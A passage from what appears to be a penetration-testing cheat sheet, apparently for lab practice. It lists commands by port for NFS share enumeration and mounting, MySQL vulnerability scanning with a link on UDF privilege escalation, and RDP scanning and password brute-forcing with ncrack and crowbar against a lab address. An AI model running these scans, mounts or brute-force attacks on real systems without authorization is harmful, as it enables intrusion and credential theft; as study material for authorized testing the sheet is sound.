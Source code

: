 <br>

### 2049 - NFS
---

```bash
nmap -p 111,2049 --script nfs-ls,nfs-showmount

showmount -e 10.11.1.111

# If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS –o nolock
mount -t nfs 10.11.1.111:/ /tmp/NFS –o nolock
```

<br>

### 2100 - Oracle XML DB
---

Default passwords:

[https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm](https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm)

<br>

### 3306 - MySQL

---
```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

# MYSQL UDF 4.x/5.0
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

<br>

### 3389 - RDP
---

```bash
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
python crowbar.py -b rdp -s 10.11.1.111/32 -u admin -C ../rockyou.txt -v
```
